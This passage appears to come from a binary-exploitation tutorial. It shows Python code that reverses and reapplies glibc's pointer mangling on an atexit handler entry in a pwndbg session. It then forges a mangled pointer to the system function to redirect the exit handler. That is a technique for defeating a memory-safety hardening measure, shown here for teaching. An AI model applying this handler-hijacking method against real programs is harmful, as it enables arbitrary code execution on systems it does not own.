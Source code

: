 As you can see, currently registered target is `0xa81678bd4487afc2`. 
Let's perform manually the `PTR_DEMANGLE` and `PTR_MANGLE` operation:

```python
def ror(value, bits, size=64):
    """ Rotate right (ROR) operation. 
        value: Integer to rotate
        bits: Number of bits to rotate by
        size: Bit size (default 64-bit for rax)
    """
    mask = (1 << size) - 1  # Create a mask for the given size
    return ((value >> bits) | (value << (size - bits))) & mask

def rol(value, bits, size=64):
    """ Rotate left (ROL) operation.
        value: Integer to rotate
        bits: Number of bits to rotate by
        size: Bit size (default 64-bit for rax)
    """
    mask = (1 << size) - 1  # Create a mask for the given size
    return ((value << bits) | (value >> (size - bits))) & mask

# Demangle operation
mangled = 0xa81678bd4487afc2
rax = mangled
rax = ror(rax, 0x11) 
demangled = rax ^ 0xd7e12bf4cba2d603
print(hex(demangled)) # -> 0x7ffff7fc7440

# Mangle operation
rax = demangled
rax = rax ^ 0xd7e12bf4cba2d603
rax = rol(rax, 0x11)
assert(rax == mangled)
```

We can check this on gdb and confirm it's a valid address, and see that it matches `_dl_fini`:

```c
pwndbg> x/1i 0x7ffff7fc7440
   0x7ffff7fc7440 <_dl_fini>:	endbr64
```

> If you are curious about how _dl_fini ends up there, this happens through __libc_start_main -> __cxa_atexit -> __internal_atexit

Now for the sake of showing the concept, let's point it to `system`:

```python
# Mangle operation
rax = 0x7ffff7c5af30 # system addr
rax = rax ^ 0xd7e12bf4cba2d603
rax = rol(rax, 0x11)
print(hex(rax)) # => 0xa81678cef267afc2
```
